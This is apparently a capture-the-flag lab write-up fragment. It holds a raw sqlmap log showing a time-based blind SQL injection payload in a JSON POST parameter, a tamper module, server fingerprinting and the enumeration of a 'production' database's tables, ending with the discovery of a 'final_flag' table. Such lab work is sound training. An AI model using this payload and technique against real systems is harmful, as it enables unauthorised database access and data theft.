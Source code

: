 ```ps

[*] starting @ 23:35:38 /2025-08-23/

[23:35:38] [INFO] loading tamper module 'between'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:35:38] [INFO] resuming back-end DBMS 'mysql' 
[23:35:38] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:35:39] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:35:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:35:39] [INFO] fetching tables for database: 'production'
[23:35:39] [INFO] fetching number of tables for database 'production'
[23:35:39] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                       
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[23:35:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
5
[23:35:53] [INFO] retrieved: 
[23:35:58] [INFO] adjusting time delay to 1 second due to good response times
final_flag
[23:36:38] [INFO] retrieved: order_items
[23:37:24] [INFO] retrieved: products
[23:37:58] [INFO] retrieved: categories
[23:38:33] [INFO] retrieved: brands
Database: production
[5 tables]
+-------------+
| brands      |
| categories  |
| final_flag  |
| order_items |
| products    |
+-------------+

[23:38:55] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:38:55] [WARNING] your sqlmap version is outdated

[*] ending @ 23:38:55 /2025-08-23/
```
And it has the final_flag table.
